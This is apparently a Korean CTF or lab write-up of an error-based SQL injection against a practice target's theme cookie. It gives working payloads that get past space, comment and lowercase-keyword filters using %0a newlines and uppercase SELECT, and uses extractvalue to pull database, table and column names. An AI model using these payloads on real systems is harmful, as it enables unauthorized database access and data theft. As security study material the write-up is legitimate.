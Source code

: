 Burp Suite로 `/spec4/theme.php` 요청을 확인한 결과,
클라이언트가 보낸 `Cookie` 헤더 내의 `user_theme=neon` 값이 서버에서 그대로 파싱되어,
응답 본문 내 `theme_name` 및 `theme_settings` 필드에 **JSON 형식**으로 삽입되고 있었다.

이를 기반으로 **쿠키에 포함된 `user_theme` 파라미터를 이용해 SQL Injection 가능성을 테스트**해보았다.

`user_theme` 쿠키 값을 조작하여 SQL Injection을 시도하던 중,
**일반적인 공백 문자 (`%20`)는 필터링되거나 무시되고**, `--`, `#` 등 주석 구문도 차단되고 있는 것을 확인하였다.
그러나 개행 문자 (%0a) 는 필터링되지 않고 그대로 처리되었으며, 이를 이용해 다음과 같은 페이로드로 SQL Injection에 성공하였다.

```html
neon'%0aand%0a'1'='1
```

이 결과를 통해 **공백 및 주석 필터링을 우회하는 기법으로 `%0a` 기반의 인젝션이 유효함**을 확인할 수 있었다.

이번에는 **에러 메시지를 이용한 SQL Injection 기법**으로 접근을 시도하였다.

> 데이터베이스 이름 추출
```html
neon'%0aor%0aextractvalue(1,concat(0x7e,database()))%0aand%0a'1'='1
```

![에러 기반 sql](/assets/web-screenshots/blind-error-based-sqli/spec4_database.png)

> 데이터베이스 이름 **spec4**

이후 테이블 이름을 추출하기 위해 `information_schema.tables`를 대상으로 쿼리를 시도하였다.
하지만 소문자 `select` 키워드에 필터링이 적용되어 있어, **대문자 `SELECT`를 사용하여 우회**하였다. 

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0atable_name%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='spec4'%0alimit%0a0,1)))%0aand%0a'1'='1
```

쿼리 실행 결과, 테이블 이름으로 **flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

이제 이어서 컬럼 이름과 테이블 내 데이터를 순차적으로 추출해볼 예정이다, 
우선 `information_schema.columns`를 사용하여 `flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0acolumn_name%0afrom%0ainformation_schema.columns%0awhere%0atable_schema='spec4'%0aand%0atable_name='flags'%0alimit%0a0,1)))%0aand%0a'1'='1
```
